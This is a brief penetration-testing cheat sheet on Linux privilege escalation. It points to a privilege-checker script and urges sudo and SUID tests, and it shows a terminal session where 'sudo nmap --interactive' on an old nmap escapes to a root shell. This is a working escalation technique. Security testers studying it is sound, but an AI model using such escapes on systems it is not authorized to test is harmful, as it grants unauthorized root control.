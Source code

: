 # LINUX
This sheet serves as a resource for processes commonly used to escalate privileges of a low-privilege user access during the post-exploitation phase of the penetration test.
## Run the LINUX Privilege Checker Python Script
If Python is installed, **make sure that this script is ran immediately** upon gaining low-level access to a target system. This script will provide quick insight into possible misconfigurations in the target system.

## SUDO Test
Testing for sudo will sometimes reveal a nice surprise. The [LinuxPrivChecker Python script](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Tools/linuxprivchecker.py) will tell you exactly which commands/programs are installed with interactive shells that can be escaped from. For instance, some older version of `nmap` had a interactivbe shell. This meant that on certain systems in which a default account has non-authenticated sudo access to it, it could easily lead to a root shell.

```
bash-3.2$ ls -lah /usr/bin/nmap
ls -lah /usr/bin/nmap
-rwxr-xr-x 1 root root 523K Jan  6  2007 /usr/bin/nmap
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> ! /bin/bash
! /bin/bash
bash-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
bash-3.2# 
```
So, it is **very important** that all of these are tested with sudo.

## SUID Test
Some of the aforementioned applciations which can be escaped from may have a SUID bit set in the permissions. This means that the effective user ID becomes that of the file's owner. **Again, test all of these** applications, **without sudo** if the attack above is unsuccessful because some of the file permissions may not be set correctly. You'd be surprised.
